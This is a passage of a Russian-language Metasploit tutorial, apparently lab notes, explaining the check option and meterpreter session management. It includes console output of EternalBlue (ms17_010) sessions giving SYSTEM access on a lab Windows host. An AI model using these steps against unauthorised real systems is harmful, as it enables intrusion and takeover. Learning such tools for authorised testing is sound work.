 Это вернет вам контекстную подсказку, из которой вы запустили эксплойт.

Некоторые модули поддерживают эту `check` опцию. Это позволит проверить, уязвима ли целевая система, не эксплуатируя ее.

### Сеансы
После успешной эксплуатации уязвимости будет создан сеанс. Это канал связи, установленный между целевой системой и 
Metasploit. 

Вы можете использовать эту background команду для перевода приглашения сеанса в фоновый режим и возврата к 
приглашению msfconsole. 

Сессии фоновой подготовки
```commandline
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

В качестве альтернативы  CTRL+Z может использоваться для фоновых сеансов.

Эту sessions команду можно использовать из командной строки msfconsole или любого контекста для просмотра 
существующих сеансов. 

Список активных сеансов
```commandline
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 exploit(windows/smb/ms17_010_eternalblue) > back
msf6 > sessions 

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 >
```
